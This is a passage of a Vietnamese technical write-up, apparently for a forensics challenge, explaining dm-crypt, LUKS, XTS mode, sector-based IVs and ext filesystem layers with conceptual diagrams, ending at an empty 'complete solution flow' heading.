    v
ciphertext block trên disk
```

##### Đọc dữ liệu

```text
ciphertext block trên disk
    |
    v
dm-crypt decrypt
    |
    v
plaintext block cho filesystem
```

Do mã hóa diễn ra ở tầng block device, tất cả nội dung phía trên đều được bảo vệ, bao gồm:

- Filesystem superblock
- Inode table
- Directory entry
- File content
- Journal
- Free-space metadata

---

#### 5. Phân biệt LUKS và dm-crypt

LUKS và dm-crypt có liên quan nhưng không phải cùng một thành phần.

##### dm-crypt

`dm-crypt` là engine thực hiện mã hóa block. Nó cần các tham số như:

- Cipher
- Mode
- Volume key
- Data offset
- Encryption-sector size
- IV hoặc tweak convention

##### LUKS

LUKS là định dạng quản lý khóa và metadata được sử dụng phổ biến phía trên dm-crypt. LUKS thường chứa:

- Magic và version
- Cipher configuration
- Keyslot
- KDF parameters
- Encrypted volume key
- Data offset
- Metadata về volume

Quan hệ giữa chúng:

```text
Passphrase
    |
    v
Key Derivation Function
    |
    v
Key-encryption key
    |
    v
Mở keyslot trong LUKS
    |
    v
Volume key
    |
    v
dm-crypt
    |
    v
Giải mã encrypted payload
```

Passphrase thường không trực tiếp mã hóa toàn bộ ổ đĩa. Nó được dùng để mở một keyslot, từ đó lấy ra volume key. Chính volume key mới được dm-crypt sử dụng cho hoạt động I/O.

---

#### 6. Volume key và các loại khóa

Trong kiến trúc encrypted volume, cần phân biệt:

- **Passphrase:** Giá trị người dùng nhập
- **KDF output:** Khóa được sinh từ passphrase và salt
- **Key-encryption key:** Dùng để bảo vệ volume key trong keyslot
- **Volume key:** Dùng trực tiếp bởi dm-crypt để mã hóa block

Luồng tổng quát:

```text
passphrase
    |
    v
KDF
    |
    v
mở keyslot
    |
    v
volume key
    |
    v
dm-crypt mapping
```

Khi volume đang được mở, dm-crypt cần giữ volume key hoặc trạng thái khóa tương đương trong bộ nhớ kernel để tiếp tục xử lý I/O. Vì vậy, disk image có thể chỉ chứa ciphertext, trong khi trạng thái runtime của hệ thống đang hoạt động chứa các thông tin cần thiết để sử dụng volume.

---

#### 7. LUKS header và encrypted payload

Một volume mã hóa có thể được hình dung như sau:

```text
Đầu volume
   |
   v
+---------------------------+
| LUKS metadata             |
| Header                    |
| Keyslots                  |
| KDF parameters            |
+---------------------------+
| Alignment / reserved area |
+---------------------------+
| Encrypted payload         |
|                           |
| Filesystem ciphertext     |
|                           |
+---------------------------+
```

Encrypted payload không nhất thiết bắt đầu ngay tại offset 0. Một vùng đầu volume có thể được dành cho:

- Header
- Keyslot
- Metadata
- Alignment
- Reserved space

Vị trí bắt đầu encrypted payload được gọi là data offset hoặc payload offset.

Nếu metadata đầu volume bị mất nhưng encrypted payload vẫn còn, image vẫn chứa ciphertext của filesystem. Tuy nhiên, các thông tin quản lý như keyslot, cipher configuration và offset có thể không còn được lấy trực tiếp từ image.

---

#### 8. Plain dm-crypt

Không phải mọi dm-crypt volume đều sử dụng LUKS.

Plain dm-crypt có kiến trúc:

```text
Raw block device
    |
    v
dm-crypt mapping được cấu hình thủ công
    |
    v
Filesystem
```

Trong trường hợp này, image có thể không chứa bất kỳ header hay magic đặc trưng nào:

```text
offset 0
   |
   v
ciphertext ciphertext ciphertext ...
```

Các tham số mapping được cung cấp từ bên ngoài:

- Volume key
- Cipher
- Mode
- IV convention
- Sector size
- Offset

Vì vậy:

```text
Không có LUKS header
├── Có thể metadata đã bị mất
├── Có thể volume dùng plain dm-crypt
└── Không đồng nghĩa ciphertext không hợp lệ
```

---

#### 9. Cipher, mode và IV generator

Tên cấu hình dm-crypt thường có dạng:

```text
<cipher>-<mode>-<IV generator>
```

Ba thành phần có ý nghĩa khác nhau.

##### Cipher

Cipher là thuật toán mã hóa block, ví dụ:

- AES
- Serpent
- Twofish

##### Mode

Mode xác định cách cipher được áp dụng lên nhiều block dữ liệu:

- XTS
- CBC
- ESSIV-based modes

##### IV hoặc tweak generator

Thành phần cuối xác định cách sinh IV hoặc tweak dựa trên vị trí sector.

```text
sector number
    |
    v
IV/tweak generator
    |
    v
IV hoặc tweak cho encryption unit
```

Nếu IV hoặc tweak được tính sai, cùng một volume key vẫn tạo ra plaintext sai.

---

#### 10. XTS trong mã hóa block storage

XTS là mode được thiết kế cho disk encryption.

Nó sử dụng hai khóa logic:

```text
Data encryption key
+
Tweak key
    |
    v
XTS key material
```

Luồng tổng quát:

```text
Encryption unit data
+
Sector/encryption-unit number
    |
    v
Tạo tweak
    |
    v
XTS encrypt/decrypt
```

Tweak làm cho cùng một plaintext block khi xuất hiện ở hai vị trí khác nhau tạo ra ciphertext khác nhau.

```text
Cùng plaintext
├── sector A -> ciphertext A
└── sector B -> ciphertext B
```

XTS bảo vệ tính bí mật nhưng không cung cấp authentication tag. Do đó, XTS không tự phát hiện chắc chắn việc ciphertext bị sửa hoặc dùng sai khóa.

```text
XTS
├── Confidentiality
└── Không có integrity authentication
```

Vì vậy, output giải mã phải được kiểm tra dựa trên cấu trúc dữ liệu phía trên, chẳng hạn filesystem metadata.

---

#### 11. Sector và encryption unit

Trong một encrypted block device có thể xuất hiện nhiều khái niệm kích thước khác nhau:

- Physical sector
- Logical sector
- Encryption sector
- Filesystem block
- Memory page

Chúng không nhất thiết bằng nhau.

##### Logical sector

Đơn vị địa chỉ hóa block truyền thống của thiết bị.

##### Encryption sector

Đơn vị dữ liệu mà dm-crypt mã hóa độc lập bằng một IV hoặc tweak riêng.

##### Filesystem block

Đơn vị phân bổ dữ liệu của filesystem.

Quan hệ tổng quát:

```text
Một filesystem block
└── có thể gồm nhiều encryption sector
```

```text
Một encryption sector
└── có thể gồm nhiều logical sector
```

Encryption-sector size ảnh hưởng trực tiếp tới:

- Vị trí bắt đầu từng đơn vị mã hóa
- Cách tăng sector number
- Cách tạo IV hoặc tweak
- Ranh giới của mỗi thao tác XTS

Chọn sai kích thước có thể khiến một vùng nhỏ tình cờ trông hợp lệ nhưng các metadata ở vị trí khác bị giải sai.

---

#### 12. IV theo sector number

Trong disk encryption, IV hoặc tweak thường được sinh từ số sector thay vì được lưu riêng cho từng block.

```text
sector index
    |
    v
encode theo convention
    |
    v
IV/tweak
```

Một số convention đếm theo logical sector cố định; số khác đếm theo encryption sector.

Nếu một encryption unit bao gồm nhiều logical sector, chỉ số IV có thể tăng theo một bước lớn hơn một:

```text
encryption unit size
/
logical sector size
=
số logical sector trong mỗi encryption unit
```

Điều quan trọng là cả bên mã hóa và giải mã phải sử dụng cùng:

- Điểm bắt đầu đếm
- Sector size
- Byte order
- IV convention

---

#### 13. Lớp filesystem phía trên dm-crypt

Sau khi block device được giải mã, filesystem xuất hiện như một thiết bị lưu trữ thông thường:

```text
dm-crypt plaintext block device
    |
    v
Filesystem
```

Với filesystem kiểu ext, các thành phần chính gồm:

- **Superblock:** Chứa thông tin tổng quát của filesystem
- **Block group descriptor:** Mô tả các block group
- **Inode bitmap:** Đánh dấu inode đang được sử dụng
- **Block bitmap:** Đánh dấu data block đang được sử dụng
- **Inode table:** Chứa metadata của file và thư mục
- **Extent tree:** Ánh xạ logical block của file tới physical block
- **Directory entry:** Ánh xạ tên file tới inode
- **Journal:** Ghi lại thay đổi để hỗ trợ phục hồi tính nhất quán

Luồng truy cập file:

```text
Tên file
    |
    v
Directory entry
    |
    v
Inode number
    |
    v
Inode
    |
    v
Extent/block mapping
    |
    v
File data
```

Nếu lớp giải mã phía dưới sai, các cấu trúc filesystem thường mất tính nhất quán:

- Sai magic
- Kích thước block vô lý
- Inode không hợp lệ
- Extent trỏ ra ngoài volume
- Directory entry sai độ dài
- Tên file bị hỏng

---

#### 14. Kiến trúc runtime khi volume được mount

Khi một encrypted volume đang hoạt động, kiến trúc runtime có thể được hình dung:

```text
Disk image / physical device
    |
    v
Underlying block device
    |
    v
dm-crypt target
├── cipher configuration
├── volume key state
└── sector/IV parameters
    |
    v
/dev/mapper/<mapping>
    |
    v
Filesystem driver
    |
    v
Mount point
    |
    v
Processes đọc và ghi file
```

Các thành phần cần thiết cho hoạt động thường được phân tán ở nhiều nơi:

- **Disk:** Chứa ciphertext
- **Kernel dm-crypt state:** Chứa trạng thái mã hóa runtime
- **Kernel VFS:** Chứa superblock, inode và mount information
- **Page cache:** Chứa các page file đang được sử dụng
- **Process memory:** Có thể chứa plaintext hoặc khóa ở tầng ứng dụng

Đây là lý do disk image và memory snapshot cung cấp hai góc nhìn khác nhau về cùng một hệ thống.

---

#### 15. Disk encryption và file encryption

Cần phân biệt mã hóa toàn block device với mã hóa từng file.

##### Disk hoặc volume encryption

```text
Filesystem
    |
    v
dm-crypt
    |
    v
Encrypted block device
```

Toàn bộ metadata filesystem và file content đều nằm trong ciphertext.

##### File-level encryption

```text
Filesystem bình thường
├── plaintext metadata
└── một số file có ciphertext riêng
```

Một encrypted disk image thường không thể được xử lý giống archive có mật khẩu. Cần tái tạo đúng block-device layer trước khi filesystem có thể được diễn giải.

---

#### 16. Mô hình kiến trúc áp dụng cho loại artefact trong bài

Về mặt kiến thức, disk image trong bài thuộc mô hình:

```text
Raw block-device image
    |
    v
Encrypted payload
    |
    v
dm-crypt-compatible mapping
    |
    v
Decrypted virtual block device
    |
    v
Linux filesystem
    |
    v
File và executable
```

Điểm quan trọng không nằm ở một định dạng file `.img` đặc biệt. `.img` chỉ là container byte-for-byte; ý nghĩa thực sự đến từ block-device stack từng sử dụng nó:

- **Image format:** chỉ mô tả cách lưu các byte
- **Encryption layer:** mô tả cách biến ciphertext thành plaintext block
- **Filesystem layer:** mô tả cách biến plaintext block thành file và thư mục

Do đó, kiến trúc cần được hiểu theo thứ tự lớp:

```text
Raw bytes
    |
    v
Partition hoặc volume boundary
    |
    v
Encryption metadata / runtime configuration
    |
    v
Block decryption
    |
    v
Filesystem metadata
    |
    v
File hierarchy
```

## 18. Flow giải hoàn chỉnh


